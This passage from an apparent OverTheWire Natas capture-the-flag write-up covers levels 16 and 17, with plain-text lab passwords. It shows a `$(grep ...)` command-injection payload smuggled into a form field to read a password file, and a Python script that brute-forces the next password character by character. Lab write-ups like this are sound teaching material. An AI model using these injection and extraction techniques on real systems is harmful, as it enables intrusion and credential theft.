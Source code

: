 ```
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

# 17. Level 16

Like level 10, the input can't contain `[`, `;`, `|`, `&`, `` ` ``, `\` , `'`, `"`, and `]`.

Fortunately we can still inject other command using `$(command)` format.

```
$ curl -u natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh http://natas16.natas.labs.overthewire.org/ -F 'needle=$(grep -E ^a.*$ /etc/natas_webpass/natas17)hacker'
```

```
Output:
hacker
hacker's
hackers
```

If the password is start with `a`, there will be no output.
In this way, we can search for the password.

```python
#!/usr/bin/env python3
import requests

chars = [chr(i) for i in range(ord("a"),ord("z")+1)] +\
        [chr(i) for i in range(ord("A"),ord("Z")+1)] +\
        [chr(i) for i in range(ord("0"),ord("9")+1)]
password = ''

for i in range(32):
    for ch in chars:
        params = {'needle': '$(grep -E ^' + password + ch + '.*$ /etc/natas_webpass/natas17)hacker'}
        auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')
        if 'hacker' not in requests.get('http://natas16.natas.labs.overthewire.org', params = params, auth = auth).text:
            password += ch
            print(password)
            break
```

```
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

# 18. Level 17

This level is upgrade of level 16.
We can't see the result of SQL injection directly.
We are going to use time-based blind SQL injections to search for the password.
